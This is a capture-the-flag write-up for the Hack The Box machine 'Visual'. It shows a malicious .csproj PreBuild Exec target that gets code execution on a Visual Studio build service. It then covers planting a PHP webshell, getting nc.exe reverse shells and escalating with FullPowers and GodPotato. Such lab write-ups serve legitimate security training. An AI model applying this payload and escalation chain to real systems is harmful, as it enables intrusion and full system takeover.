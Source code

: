 # Visual

## Gaining Access

```
$ nmap -p- --min-rate 3000 10.129.63.153                
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-01 21:35 +08
Nmap scan report for 10.129.63.153
Host is up (0.0084s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 43.87 seconds
```

There's only one HTTP port that's open, so I can start proxying requests with Burp. Did a detailed scan as well:
```
$ nmap -p 80 -sC -sV --min-rate 4000 10.129.63.153      
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-01 21:48 +08
Nmap scan report for 10.129.63.153
Host is up (0.0066s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
|_http-title: Visual - Revolutionizing Visual Studio Builds
```

I added `visual.htb` to the `/etc/hosts` file as per standard practice.

### Web Enumeration -> PreBuild RCE

As expected from the name of the box, this website was Visual Studio themed.

![](../../.gitbook/assets/htb-visual-image.png)

The machine says that we have to include a Git Repo with a `.sln` file for compilation. The page accepts Git Repo URLs:

![](../../.gitbook/assets/htb-visual-image-1.png)

This looks vulnerable to SSRF, so let's test it by making the machine send a request to our server. This is what a HTTP server would receive:

```
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.63.153 - - [01/Oct/2023 21:54:36] code 404, message File not found
10.129.63.153 - - [01/Oct/2023 21:54:36] "GET /info/refs?service=git-upload-pack HTTP/1.1" 404 -
```

So we need to create a `.git` repository with a malicious Visual Studio project. 

The machine explicitly states that .NET 6.0 is supported, and that it only **compiles** the binary. There's no mention anywhere that it will execute it. As such, there's probably a method within VS projects that can make the machine compile, then execute the binary immediately. 

When researching for methods, I came across this, which allows us to execute `.exe` files:

{% embed url="https://learn.microsoft.com/en-us/visualstudio/ide/how-to-specify-build-events-csharp?view=vs-2022" %}

The above allows us to specify commands to be executed before building the project. I tested this by creating a `.sln` project using `dotnet new sln -o rev`. Afterwards, I used `git init` to make it a repository.

This was my `.csproj` file:

```xml
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
  </PropertyGroup>

  <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="shell.exe"/>
  </Target>
</Project>
```

This file can be added using `dotnet sln add test.csproj` and add these files to the `.git` repo:

```bash
git add *
git commit -m "test commit"
```

Afterwards, I used `http://<MY_IP>/.git` to attempt to compile the project. Weirdly, I kept getting a either 404 for `/info/refs?service=git-upload-pack` or the machine complaining that a `.sln` file doesn't exist.

Googling this error just shows this is a permissions issue. Running `git --bare update-server-info` within the `.git` folder will solve both issues. This is because we are trying to access this repository over HTTP, and by default it isn't allowed.  

{% embed url="https://stackoverflow.com/questions/2278888/private-git-repository-over-http"  %}

If done correctly, we would get a ton of GET requests from the machine, and also take quite a while to compile. 

Eventually, would get a shell as `enox`:

![](../../.gitbook/assets/htb-visual-image-2.png)

## Privilege Escalation

This user didn't have much privileges, but they were part of the SERVICE group, which we might need to use later.

```
C:\Users\enox>whoami /all
whoami /all

USER INFORMATION
----------------

User Name   SID                                          
=========== =============================================
visual\enox S-1-5-21-328618757-2344576039-2580610453-1003


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

### WebShell -> Service User

When checking the `C:\xampp\htdocs` directory, we find that we have permissions to write there:

```
C:\xampp\htdocs>icacls index.php
index.php Everyone:(I)(F)
          NT AUTHORITY\SYSTEM:(I)(F)
          BUILTIN\Administrators:(I)(F)
          BUILTIN\Users:(I)(RX)

Successfully processed 1 files; Failed processing 0 files

C:\xampp\htdocs>echo test > test
```

I downloaded a `cmd.php` shell there (since the website was in PHP), and we can get RCE as another user:

![](../../.gitbook/assets/htb-visual-image-3.png)

Getting a reverse shell can be done by downloading `nc.exe` onto the machine and running it.

![](../../.gitbook/assets/htb-visual-image-4.png)

### FullPowers + GodPotato -> Root

`local service` did not have its normal full privileges:

```
C:\xampp\htdocs>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

This is where `FullPowers.exe` comes into play.

{% embed url="https://github.com/itm4n/FullPowers" %}

Running it gives us another `cmd.exe` shell with more privileges, most notably `SeImpersonatePrivilege`. 

![](../../.gitbook/assets/htb-visual-image-5.png)

From here, we can use `godpotato.exe` to run commands as the administrator.

{% embed url="https://github.com/BeichenDream/GodPotato" %}

![](../../.gitbook/assets/htb-visual-image-6.png)

Then, we can just get another reverse shell using `nc.exe` again.

![](../../.gitbook/assets/htb-visual-image-7.png)

Rooted!